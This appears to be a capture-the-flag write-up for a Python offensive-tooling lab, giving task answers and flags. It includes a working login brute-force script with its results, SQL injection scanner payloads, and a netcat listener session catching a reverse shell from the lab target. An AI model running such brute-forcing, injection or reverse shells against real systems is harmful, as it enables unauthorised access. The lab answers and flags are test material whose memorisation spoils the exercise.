

> # Custom Tooling Using Python
 
## Sumary

### Task 2 - Using a Coding Language for Custom Tooling
1. Does a scripting language perform better than a compiled language? (Yea/Nay)<br>
    > Generally slower as interpretation only happens at runtime	Faster execution as it can be compiled and optimised into machine code
    **Answer:** Nay

1. Which compiled language is easy to cross-compile?<br>
    > Fast executing and easy cross-compilation

    **Answer:** Go

1. Which scripting language is best suited for web-based exploits?<br>
    > Useful for web-based exploits and widely supported in web applications

    **Answer:** Javascript

### Task 3 - Developing a Brute-Forcing Tool
1. What is one of the renowned Python libraries used to send HTTP requests, interact with web applications, and analyse responses?<br>
    > Requests library: A Python library that facilitates sending HTTP requests and receiving responses from web apps. It has built-in functions to send custom headers like user-agent, HTTP method, and more. 

    **Answer:** requests

1. What is the flag value after logging in as admin?<br>
    ```
    $ python brute.py
    [+] Found valid credentials: admin:1234
    ```
    <br>
    **Answer:** THM{Brute_Force_Success007}

1. Can you attempt to log in as Mark, whose password follows a specific pattern? His password consists of the first three characters as digits (000-999) followed by a single uppercase letter (A-Z). What is the flag value?<br>
    ```python
    import requests
    import string

    url = "http://python.thm/labs/lab1/index.php"

    username = "Mark"

    # Generating passwords: 000A - 999Z
    password_list = [f"{str(i).zfill(3)}{letter}" for i in range(1000) for letter in string.ascii_uppercase]

    def brute_force():
        for password in password_list:
            data = {"username": username, "password": password}
            response = requests.post(url, data=data)
            
            if "Invalid" not in response.text:
                print(f"[+] Found valid credentials: {username}:{password}")
                break
            else:
                print(f"[-] Attempted: {password}")

    brute_force()
    ```
    Found the credential.<br>
    ```
    $ python solve.py
    [+] Found valid credentials: Mark:111A
    ```
    <br>
    **Answer:** THM{Brute_Force_Success_Mark001}

### Task 4 - Developing a Vulnerability Scanner
1. How many vulnerabilities will be identified if we use the above scanner.py script with the updated URL http://python.thm/labs/lab2/departments.php?name=? (without changing the original code)<br>
    ```
    $ python scanner.py
    
    ```
    **Answer:** 0

1. After tweaking the above script to use the appropriate GET parameter, how many payloads are found? (with changing the original code)<br>
    Change 'id' to 'name'.<br>
    ```
    $ python scanner.py
    [+] Potential SQL injection detected with payload: '
    [+] Potential SQL injection detected with payload: ' UNION SELECT 1,2,3 --
    ```
    **Answser:** 2

1. Which of the following is the valid type of vulnerability? Write the correct option only.<br>
    **Answer:** b

1. What is the name of the renowned library that is used to make concurrent requests to an endpoint?<br>
    > As a pentester, it is important to scan the website efficiently by speeding up the vulnerability scanning process. In this script, we are using multi-threading with threading.Thread

    **Answer:** threading

### Task 5 - Creating a Basic Exploit
1. What is the flag value?<br>
    Read the `flag.txt` top get the flag.<br>
    **Answer:** THM{basic_exploit_using_python}

### Task 6 - Task Automation
1. What is the flag?<br>
    ```
    $ nc -lvnp 4444
    `listening on [any] 4444 ...
    connect to [10.2.38.189] from (UNKNOWN) [10.10.9.237] 49884
    ls
    6470e394cbf6dab6a91682cc8585059b.txt
    dashboard.php
    index.php
    login.php
    logout.php
    cat 6470e394cbf6dab6a91682cc8585059b.txt
    THM{6470e394cbf6dab6a91682cc8585059b}
    ```
    **Answer:** THM{6470e394cbf6dab6a91682cc8585059b}
